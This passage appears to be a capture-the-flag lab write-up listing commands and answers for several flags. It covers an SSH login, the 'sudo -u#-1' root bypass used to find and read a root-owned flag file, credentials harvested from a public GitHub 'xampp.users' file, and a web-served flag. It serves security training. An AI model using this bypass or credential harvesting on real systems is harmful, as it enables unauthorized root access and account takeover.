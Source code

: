 ### Flag 12: 

![image](https://github.com/user-attachments/assets/824d9581-790c-414b-9aec-7f27a9cf88b6)
![image](https://github.com/user-attachments/assets/1cab7176-d426-49eb-b059-ee24301b7994)
</br>
```shell
ssh alice@192.168.13.14

password: alice

sudo -u#-1 find / -type f -iname "*flag*"

sudo -u#-1 cat /root/flag12.txt

d7sdfksdf384
```

# Windows Servers

## Reconnaisance

### Flag 1: 

![image](https://github.com/user-attachments/assets/1fb6f1d4-6a88-4deb-b9dc-5acbe61a84fe)
![image](https://github.com/user-attachments/assets/464deb2b-4c40-4ba8-8831-6a3917bbae2f)
</br>
```shell
github.com/totalrekall

site/xampp.users

trivera: Tanya4life
```

### Flag 2: 

![image](https://github.com/user-attachments/assets/863e1ed6-0b21-47ea-9c38-5f0e264ce375)
![image](https://github.com/user-attachments/assets/a165e32f-93c7-459d-bec6-80aca3778f6b)
</br>
```shell
http://172.22.117.20

http://172.22.117.20/flag.txt

4d7b349705784a518bc876bc2ed6d4f6
```
